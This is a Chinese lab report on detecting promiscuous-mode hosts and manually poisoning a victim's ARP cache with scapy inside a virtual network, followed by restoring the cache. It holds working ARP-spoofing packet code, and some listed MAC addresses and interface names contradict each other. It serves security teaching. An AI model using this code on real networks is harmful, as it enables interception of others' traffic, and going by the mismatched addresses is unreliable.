# 第四章实验

## 网络拓扑

- 攻击者主机(Kali_Attacker)
  - 08:00:27:83:85:55 /eth0
  - 172.16.111.136
- 受害者主机(kali)
  - 08:00:27:c5:74:a5 /eth0
  - 172.16.111.141
- 网关(Gateway)
  - 08:00:27:83:85:55 /enp0s9
  - 172.16.111.1

## 实验准备

### 安装scapy
在攻击者主机上提前安装好scapy
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip
# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



## 实验一：检测局域网中的异常终端
```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```



```
# 在攻击者主机上开启 scapy
scapy
```


```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.141")
```


```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```



```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.141")
```


```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```


经过查阅资料，可知promiscping命令发送who-has请求，而在此实验中，可以看出在开启混杂模式后，靶机才能接受数据包

```promiscping : Send ARP who-has requests to determine which hosts are in promiscuous mode为查看混杂模式主机而发送ARP请求```

## 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的```scapy```交互式终端完成

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```



```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

#用gw_mac命令获取网关MAC地址
```


```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.141
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 需要加Ethernet帧头才可以“毒化”
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.141", hwdst="08:00:27:b8:8a:ab")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```



```
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

ip neigh
```



回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:83:85:55", pdst="172.16.111.141", hwdst="08:00:27:c5:74:a5")
sendp(restorepkt1, count=100, inter=0.2)
```


此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```



## 参考资料
[Scapy常用操作和命令](https://blog.csdn.net/qwertyupoiuytr/article/details/54670641)

[scapy:网络数据包操作](https://zhuanlan.zhihu.com/p/369369601)

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/README.md)

## 补充 FAQ
[解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)
```
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```
```
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```
### scapy 的交互式控制台在自动补全时触发太多 DeprecationWarning 的解决办法
进入 scapy 交互式控制后输入以下代码并执行。
```
import warnings
warnings.filterwarnings('ignore')
```
### 开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化
根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：
```
-p --no-promiscuous-mode Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, -p' cannot be used as an abbreviation forether host {local-hw-addr} or ether broadcast'.
```

使用 -p 参数可以禁止使用「混杂」模式嗅探网卡。